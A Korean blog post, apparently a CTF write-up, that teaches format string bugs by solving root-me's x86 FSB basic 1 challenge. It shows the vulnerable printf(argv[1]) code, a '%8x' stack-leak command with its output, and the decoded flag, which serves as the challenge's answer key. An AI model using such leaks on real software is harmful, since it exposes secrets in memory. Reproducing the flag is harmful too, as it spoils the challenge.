


# 미뤄왔던 FSB
포맷 스트링 버그는 뭔가 제대로 이해하는 건 나중으로 미루고 싶었던 케이스였다. 그래서 미루고 미루다가 이번 기회에 제대로 짚고 넘어가고자 포스팅을 준비하게 되었다.

    char str* ="ringa";
    printf(argv[1]);

format string bug는 위와 같이 %x, %c, %s 등과 같은 format string(서식 문자)을 지정해주지 않고 printf가 사용되었을 때, 출력할 변수에 format string이 포함되어 있다면 printf 함수가 이를 **단순 문자열이 아닌 format string으로 인식**하는 점에서 발생하는 취약점이다.

{{site.baseurl}}

위 코드로부터 스택구조를 그려보면 먼저 str이 push된 후 printf의 인자값이 push 되고, 그 이후에 ret과 sfp가 쌓이게 될 것이다.

이 때 
> 1. printf의 인자값이 format string이고,
> 2. 해당 format string에 맞는 인자가 없다면

**esp+4**에 위치해 있는 값을 해당 format string에 맞게 출력하게 되는 것이다.

워게임 사이트 root-me의 x86 format string bug basic 1,2문제를 풀면서 FSB에 대해 알아보고자 한다.

# x86 format string bug basic 1

다음은 포맷스트링 인자를 사용하지 않는 printf 함수가 포함되어 있는 바이너리의 코드이다.

    #include <stdio.h>
    #include <unistd.h>
    
    int main(int argc, char *argv[]){
            FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
            char buffer[32];
            fgets(buffer, sizeof(buffer), secret);
            printf(argv[1]);
            fclose(secret);
            return 0;
    }

인자를 받아 format string없이 인자를 printf로 출력하고 있다.

    gdb$ disas main
    Dump of assembler code for function main:
    .
    .
    .
    0x08048536 <+82>:	mov    eax,DWORD PTR [esp+0x1c]
    0x0804853a <+86>:	add    eax,0x4
    0x0804853d <+89>:	mov    eax,DWORD PTR [eax]
    0x0804853f <+91>:	mov    DWORD PTR [esp],eax
    0x08048542 <+94>:	call   0x80483c0 <printf@plt>
    .
    .
    .

코드에서 볼 수 있었듯이 printf에는 포맷스트링 지정자가 없었기 때문에 입력값에 포맷스트링을 입력했을 때 스택을 살펴볼 수 있게 된다.

그렇기 때문에 디버거를 통해  몇번째 지정자부터 입력한 인자값이 보이는지 스택 구성을 확인하도록 하겠다.

디버거를 통해 비교해보면서 실제 스택구성을 파악해보도록 하려고 했는데.. 아무리 해도 브포를 printf 지점 주변에만 걸고 run하면 세그폴트가 나면서 바이너리가 죽어버린다.. 그래서 직접 볼 수가 없었다.. 으으 왜그러는거지 ㅠㅠ

    gdb$ b *0x08048542
    Breakpoint 1 at 0x08048542

    gdb-peda$ r "%8x%8x%8x%8x"
    Starting program: /challenge/app-systeme/ch5/ch5 "%8x%8x%8x%8x"

    Program received signal SIGSEGV, Segmentation fault.

그래서 직접 %8x로 값들을 출력해보면서 스택구조를 따라가보았다.

    app-systeme-ch5@challenge02:~$ ./ch5 "%8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x"
      20  804b008 b7e562f3        0  8049ff4        2 bffffc54 bffffd77       2f  804b008 39617044 28293664 6d617045      a64 b7e564ad b7fd03c4

보면서 하나씩 늘려가다보니 어느새 저렇게까지 값을 뽑고있었당 ㅋㅋ

쨌든 출력된 값들과 스택구조를 매치시켜보면 아래와 같은 도출이 나오게 된다.

(* **주의** * 디버거에서 동적으로 직접 확인한 값이 아닌, 코드를 보고 만든 스택 구조와 실행결과 값을 매칭시킨 것이므로 **매우매우 뇌피셜**이다.)

그래서 fgets를 통해 buffer에 쓰여진 플래그의 키는 그림의 네모 안에 있는 값이 된다.

    >>> a="39617044282936646d61704564"
    >>> a.decode("hex")
    '9apD()6dmapEd'

4바이트씩 리틀엔디안 처리를 해주면
> 플래그 : Dpa9d6)(Epamd